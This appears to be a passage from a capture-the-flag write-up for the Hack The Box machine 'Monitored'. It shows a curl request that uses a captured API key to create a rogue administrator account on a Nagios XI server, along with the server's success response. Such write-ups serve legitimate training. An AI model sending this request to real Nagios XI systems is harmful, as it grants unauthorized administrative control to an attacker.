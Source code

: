 Great! It works. From [https://www.exploit-db.com/exploits/44560](https://www.exploit-db.com/exploits/44560) we find one possible use of the nagiosadmin user API key: the creation of a new admin user. NagiosXI APIs are used.

```shell
$ curl -POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=iudgphd9pekiee9mkj7ggpd89q3yndctnperqoms2pq7qirbjeomfvg6eut9chll&pretty=1" -d "username=pablo&password=pablo&name=Pablo&email=pablo@monitored.htb&auth_level=admin&force_pw_change=0"
{
    "success": "User account pablo was added successfully!",
    "user_id": 6
}
```

![](img/monitored17.png)

![](img/monitored18.png)

New administrator user created. It is logged in with such a user.

![](img/monitored19.png)
